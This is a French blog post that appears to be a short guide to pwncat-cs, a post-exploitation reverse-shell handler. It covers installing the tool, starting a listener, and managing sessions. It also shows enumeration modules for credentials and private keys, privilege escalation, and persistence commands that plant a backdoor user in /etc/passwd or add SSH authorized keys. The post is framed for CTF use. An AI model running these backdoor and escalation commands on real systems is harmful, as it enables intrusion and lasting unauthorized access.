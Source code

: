 ```yaml
---
title: Stop using netcat, use Pwncat-cs
meta_title: ""
description: Petite documentationn d'utilisation d'un fancy rev et bind handler
date: 2024-04-04T05:00:00Z
image: /images/pwncat.png
categories:
  - Outils
author: Tmax
tags:
  - Outils
  - Fiches
  - Post-exploitation
draft: false
---
```


# Introduction

[Pwncat](https://github.com/calebstewart/pwncat) est un outil de post-exploitation qui facilite l'usage des reverse shell et embarque plusieurs avantages tels que la gestion des shells stabilisés et interactifs, la désactivation de l'historique, la gestion des multi-sessions... 

Ça vaut le détour. 

Voici le lien vers la [documentation officielle](https://pwncat.readthedocs.io/en/latest/). 

# Installation 

Il existe plusieurs méthodes d'installation, notamment avec `apt`. 
Nous aborderons seulement l'installation avec `pip` en utilisant un environnement virtuel. 

```bash
sudo apt-get install python3-pip # Installation de pip

# Installation de Venv 
sudo pip3 install virtualenv
# Ou avec 
sudo apt install python3-venv 

# Creation du Venv
python -m venv /opt/pwncat

# Installer pwncat dans notre venv 
/opt/pwncat/bin/pip install pwncat-cs

# Pour autoriser l'utilisation de pwncat hors de notre Venv 
ln -s /opt/pwncat/bin/pwncat-cs /usr/local/bin
```

# Utilisation 

Pour un usage basique, voici la section "Basic usage" de la [documentation](https://pwncat.readthedocs.io/en/latest/usage.html). 

Pour ce qui est d'un simple reverse shell : 

```bash
pwncat-cs -lp 1234  
```

{{< image src="images/methode_pwncat1.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}

L'indication **(local)** vous indique que vous êtes encore sur votre machine. Avec `CTRL + D` vous pourrez alors passer en **(remote)** et avoir accès à la machine distante. 

La commande `help` est bien détaillée, vous pouvez aussi l'utiliser pour chaque commande dispo comme `help connect` par exemple. Sinon, vous pouvez retrouver plus de détails pour chaque commande [ici](https://pwncat.readthedocs.io/en/latest/commands/index.html).  

Vous pouvez entre autres gérer plusieurs connexions en même temps, créer des backdoors et mettre en "queue" chaque connexion entrante. 

Voici la liste des commandes dispo : 

```python
  Command     Description                                                   
 ────────────────────────────────────────────────────────────────────────── 
  alias       Alias an existing command with a new name. Specifying [...]   
  back        Return to the remote terminal                                 
  bind        Create key aliases for when in raw mode. This only [...]      
  connect     Connect to a remote victim. This command is only valid [...]  
  download    Download a file from the remote host to the local host        
  escalate    Attempt privilege escalation in the current session. [...]    
  exit        Exit the interactive prompt. If sessions are active, [...]    
  help        List known commands and print their associated help [...]     
  info        View info about a module                                      
  lcd         Change the local current working directory                    
  leave       Leave a layer of execution from this session. Layers [...]    
  listen      Create a new background listener. Background listeners [...]  
  listeners   Manage active or stopped background listeners. This [...]     
  load        Load modules from the specified directory. This does [...]    
  local       Run a local shell command on your attacking machine           
  lpwd        Print the local current working directory                     
  reset       Reset the remote terminal to the standard pwncat [...]        
  run         Run a module. If no module is specified, use the [...]        
  search      View info about a module                                      
  sessions    Interact and control active remote sessions. This [...]       
  set         Set variable runtime variable parameters for pwncat           
  shortcut                                                                  
  upload      Upload a file from the local host to the remote host          
  use         Set the currently used module in the config handler     
```

Pour lister vos sessions vous pouvez 

```bash
sessions
```

puis pour choisir de cibler l'une d'entre elles 

```bash
sessions ID_decimal 
```

## Modules

Vous pouvez aussi rechercher les modules disponibles que l'on peut exécuter avec la commande 
```
run {module_name} 
```

```python
(local) pwncat$ search enum*
                                                                          Results                                                                           
                                                         ╷                                                                                                  
  Name                                                   │ Description                                                                                      
 ════════════════════════════════════════════════════════╪═════════════════════════════════════════════════════════════════════════════════════════════════ 
  enumerate                                              │ Perform multiple enumeration modules and write a formatted report to the...                      
  enumerate.escalate.implant                             │ Generates escalation methods based on installed implants in order to...                          
  enumerate.escalate.replace                             │ Locate execute abilities and produce escalation methods from them. This...                       
  enumerate.gather                                       │ Perform multiple enumeration modules and write a formatted report to the...                      
  enumerate.creds.pam                                    │ Exfiltrate logged passwords from the pam-based persistence module. This...                       
  enumerate.creds.password                               │ Search the victim file system for configuration files which may contain...                       
  enumerate.creds.private_key                            │ Search the victim file system for configuration files which may contain...                       
  enumerate.escalate.append_passwd                       │ Check for possible methods of escalation via modifying /etc/passwd                               
  enumerate.escalate.leak_privkey                        │ Find escalation methods by using file-read abilities to leak other user's...                     
  enumerate.file.caps                                    │ Enumerate capabilities of the binaries of the remote host                                        
  enumerate.file.suid                                    │ Enumerate SUID binaries on the remote host                                                       
  enumerate.misc.writable_path                           │ Locate any components of the current PATH that are writable by the current user.                 
  enumerate.software.cron                                │ Check for any readable crontabs and return their entries.                                        
  enumerate.software.screen                              │ Locate installations of the ``screen`` tool. This is useful because it may be...                 
  enumerate.software.screen.cve_2017_5618                │ Identify systems vulnerable to CVE-2017-5618                                                     
  enumerate.software.sudo.cve_2019_14287                 │ Identify systems vulnerable to CVE-2019-14287: Sudo Bug Allows Restricted...                     
  enumerate.software.sudo.rules                          │ Enumerate sudo privileges for the current user. If allowed, this module will...                  
  enumerate.software.sudo.version                        │ Retrieve the version of sudo on the remote host                                                  
  enumerate.system.aslr                                  │ Determine whether or not ASLR is enabled or disabled. :return:                                   
  enumerate.system.container                             │ Check if this system is inside a container :return:                                              
  enumerate.system.distro                                │ Enumerate OS/Distribution version information                                                    
  enumerate.system.fstab                                 │ Read /etc/fstab and report on known block device mount points.                                   
  enumerate.system.hosts                                 │ Enumerate hosts identified in /etc/hosts which are not localhost :return:                        
  enumerate.system.init                                  │ Enumerate system init service :return:                                                           
  enumerate.system.network                               │ Enumerate network interfaces with active connections and return their name...                    
  enumerate.system.process                               │ Extract the currently running processes. This will parse the process...                          
  enumerate.system.selinux                               │ Retrieve the current SELinux state                                                               
  enumerate.system.services                              │ Enumerate systemd services on the victim                                                         
  enumerate.system.uname                                 │ Enumerate standard system properties provided by the `uname` command. This...                    
  enumerate.user                                         │ Enumerate users from a linux target                                                              
  enumerate.user.group                                   │ Enumerate users from a linux target     
```

Source : https://pwncat.readthedocs.io/en/latest/modules.html

## Escalade de privilège

Il est aussi possible d'utiliser la commande `escalate` pour trouver des techniques d'élévation de privilèges (jamais testé en CTF) : 

{{< image src="images/methode_pwncat2.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}

Et utiliser `escalate run` pour exécuter cette escalade de privilège.  

Source : https://pwncat.readthedocs.io/en/latest/privesc.html

## Implant et backdooring


```bash
#Installe une porte dérobée à l'intérieur de l'entreprise /etc/passwd
(local) pwncat$ run implant.passwd backdoor_user=pwncat backdoor_pass=pwncat

# Installe une clé publique autorisée en tant qu'utilisateur actuel
(local) pwncat$ run implant.authorized_key key=./id_rsa

# Installe une clé autorisée en tant qu'autre utilisateur (nécessite un accès root)
(local) pwncat$ run implant.authorized_key user=john key=./id_rsa
```

Il est également possible de créer un fichier de configuration qui run ces commandes dès qu'un shell est établi, plus d'infos [ici](https://pwncat.readthedocs.io/en/latest/configuration.html#configuration-parameters) 


```
# Liste des implants installés
(local) pwncat$ run implant list

# Tentative d'escalade avec un implant local ; il sera demandé quel(s) implant(s) utiliser.
(local) pwncat$ run implant escalate

# Pour lister les implants par ID
pwncat-cs --list

# Essaye de se reconnecter à un implant
pwncat-cs {ID}
```

Source : https://pwncat.readthedocs.io/en/latest/persist.html